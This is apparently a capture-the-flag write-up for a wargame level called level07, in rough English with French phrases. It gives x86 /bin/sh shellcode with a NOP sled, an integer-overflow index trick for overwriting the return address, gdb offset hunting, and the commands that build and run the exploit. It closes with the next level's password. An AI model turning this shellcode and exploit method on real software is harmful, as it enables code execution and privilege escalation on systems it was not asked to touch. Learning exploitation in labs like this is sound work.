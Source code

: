 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80\x90

"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x90\x90\x90"

1073741824 => 0 (en x 4 en 32 bits)
+1 pour le suivant => +3 pour le next ou on peut pas ecrire

python -c 'print "".join([("store\n2425393296\n" + str(n) + "\n") for n in range(1073741824, 1073741844)])', > /tmp/level07

(filling with nops)

now we split the shellcode in groups of 4 bytes and we reverse them for little indian

OR we just copy the carefully crafter payload in ressources using

<< eof cat > /tmp/level07

now we have setup the shellcode (can be done using (cat /tmp/level07))

stack starts at 0xfffdd000 and ends at 0xffffe000 (info proc all in gdb)

start of the buffer is at esp+36 (exp+0x24) = 0xffffd554

0xf7e45513 ? would mean 136020033 offset => input address 1073741824 + 136020033 = 1209761857 and input 0xffffd554 => \xff\xff\xd5\x54 => 1423310847


START OVER

gdb -> storage is at esp+24

=> i r esp => 0xffffdc00 => storage at 0xffffdc24 bunch of other things in gdb so this is not the exact address => we add a ton of nops and troubleshoot with kinda random values after this and end up working with 0xffffdc24 + 200 to shoot in nops

add the shellcode in the storage as before

to find EIP, we just see how much things are in the stack and try to find eip by hand, we end up finding the offset which is 114 after storage => 1073741824 + 114

put all that in ressources/script.py

run python /tmp/script.py > /tmp/input
cat /tmp/input - | env - ./level07

DONE

whoami
level08
cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
